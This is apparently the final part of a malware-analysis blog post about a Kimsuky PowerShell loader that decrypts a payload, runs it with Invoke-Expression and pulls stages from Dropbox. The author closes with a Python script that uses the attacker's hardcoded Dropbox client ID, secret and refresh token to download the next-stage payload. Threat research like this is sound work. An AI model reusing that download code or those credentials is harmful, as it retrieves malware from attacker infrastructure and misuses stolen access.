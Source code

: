 - The decrypted data is converted to a string ($newString) using UTF-8 encoding, and the Invoke-Expression (iex) cmdlet is used to execute the content of this string. This is a common technique used by malware to execute arbitrary code or payloads.

- Finally, the script cleans up by closing the memory stream, stream reader, response stream, and response object.

*Overall, this script appears to be a sophisticated malware that downloads and executes a malicious payload from a Dropbox account. It employs various obfuscation techniques, such as hardcoded values, file manipulation, and encryption/decryption, to evade detection and analysis. The script also leverages the Dropbox API for authentication and file retrieval, making it more challenging to detect and block. This is my first time seeing Kimsuky employ something other than hardcore powershell script that connects back to C2, maybe they're trying something new who knows.z*

### What's Next ?
I wrote a python equivalent script to get the **ps5.bin** file. Unfortunately the refresh token has expired and the auth is unable to take place ;( 

According to Microsoft's Website

*Token lifetime*

*Refresh tokens have a longer lifetime than access tokens. The default lifetime for the refresh tokens is 24 hours for single page apps and 90 days for all other scenarios. Refresh tokens replace themselves with a fresh token upon every use.*

```python
import requests
CLIENT_ID = "oj8kd1lzqrw7v3m"
CLIENT_SECRET = "vwp27gytekx9jfq"
REFRESH_TOKEN = "wR3_ULk2OicAAAAAAAAAAV81-_COcFPa8SN0V5K-ZPTYB-BVIH5E1c4_fqLOCC_u"


body = {
    "grant_type": "refresh_token",
    "refresh_token": REFRESH_TOKEN,
    "client_id": CLIENT_ID,
    "client_secret": CLIENT_SECRET
}
token_endpoint = "https://api.dropboxapi.com/oauth2/token"

try:
 
  response = requests.post(token_endpoint, data=body)
  response.raise_for_status()  
  access_token = response.json()["access_token"]
except requests.exceptions.RequestException as e:
  print(f"Failed to refresh access token: {e}")
  exit(1)


download_url = "https://content.dropboxapi.com/2/files/download"
remote_file_path = "/step5/ps.bin"  
headers = {"Authorization": f"Bearer {access_token}"}

try:
  params = {"path": remote_file_path}
  response = requests.post(download_url, headers=headers, params=params)
  response.raise_for_status()  
  received_data = response.content

  output_file = "payload.bin"  
  with open(output_file, "wb") as f:
    f.write(received_data)

  print("File downloaded successfully!")
```